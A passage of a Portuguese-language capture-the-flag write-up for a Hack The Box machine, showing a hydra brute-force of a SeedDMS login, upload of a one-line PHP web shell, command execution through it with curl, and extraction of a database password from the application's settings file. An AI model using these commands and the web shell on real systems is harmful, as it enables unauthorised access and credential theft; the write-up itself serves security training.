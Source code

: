 Já que temos os nomes dos usuários e metade da resposta é o nome de usuário, obtidos a partir da execução usando `snmpwalk` em que **michelle** foi encontrado, podemos tentar adivinhá-los ou realizar um brute force com o `hydra`, método escolhido e que retornou a senha igual ao nome de usuário:

```bash
$ hydra -l michelle -P /usr/share/wordlists/rockyou.txt dms-pit.htb http-post-form "/seeddms51x/seeddms/op/op.Login.php:login=^USER^&pwd=^PASS^&lang=:Error" -t 10
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-10 16:05:20
[DATA] max 10 tasks per 1 server, overall 10 tasks, 14344399 login tries (l:1/p:14344399), ~1434440 tries per task
[DATA] attacking http-post-form://dms-pit.htb:80/seeddms51x/seeddms/op/op.Login.php:login=^USER^&pwd=^PASS^&lang=:Error
[80][http-post-form] host: dms-pit.htb   login: michelle   password: michelle
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-10 16:05:24
```

Já que temos agora uma credencial para o SeedDMS, podemos explorar a vulnerabilidade, que nos permitiu, logo após o upload de um documento php ( neste caso contendo um webshell - `<?php system($_GET["cmd"]); ?>`), obter execução remota de código a partir de chamadas utilizando `curl` com base no document ID identificado após o upload, neste caso **31**:

```bash
$ curl -X GET -G 'http://dms-pit.htb/seeddms51x/data/1048576/31/1.php' --data-urlencode 'cmd=id'
uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
```

## User flag

Mesmo tendo execução remota de código na máquina, todas as tentativas de shell reverso falharam. Tentei vários métodos (bash, python, payload externo, etc) e nenhum deles funcionou, possivelmente devido ao **SELinux ativo na máquina**. Com base nisso, decidi enumerar a máquina a partir deste canal.

Validando o [repositório do SeedDMS no GitHub](https://github.com/JustLikeIcarus/SeedDMS/blob/master/conf/settings.xml.template), identifiquei que existe um arquivo `/conf/settings.xml` que contém as credenciais para o banco de dados, que poderiam ser reutilizadas por outros usuários no sistema.

```bash
$ curl -X GET -G 'http://dms-pit.htb/seeddms51x/data/1048576/33/1.php' --data-urlencode 'cmd=cat /var/www/html/seeddms51x/conf/settings.xml' | grep database
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 11933    0 11933    0     0  77993      0 --:--:-- --:--:-- --:--:-- 77993
    <edition strictFormCheck="false" viewOnlineFileTypes=".txt;.text;.html;.htm;.xml;.pdf;.gif;.png;.jpg;.jpeg" enableConverting="true" enableEmail="true" enableUsersView="true" enableFullSearch="true" enableClipboard="false" enableFolderTree="true" expandFolderTree="1" enableLanguageSelector="true" stopWordsFile="" sortUsersInList="" enableDropUpload="false" enableRecursiveCount="false" maxRecursiveCount="0" enableThemeSelector="false" fullSearchEngine="sqlitefts" sortFoldersDefault="u" editOnlineFileTypes="" enableMenuTasks="false" enableHelp="false" defaultSearchMethod="database" libraryFolder="0" maxSizeForFullText="0" showSingleSearchHit="false" enableSessionList="false" enableDropFolderList="false" enableMultiUpload="false" defaultDocPosition="end">
       - restricted: Restricted access: only allow users to log in if they have an entry in the local database (irrespective of successful authentication with LDAP).
       - dbDatabase: database where the tables for seeddms are stored (optional - see adodb-readme)
       - dbUser: username for database-access
       - dbPass: password for database-access
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
    </database>
```
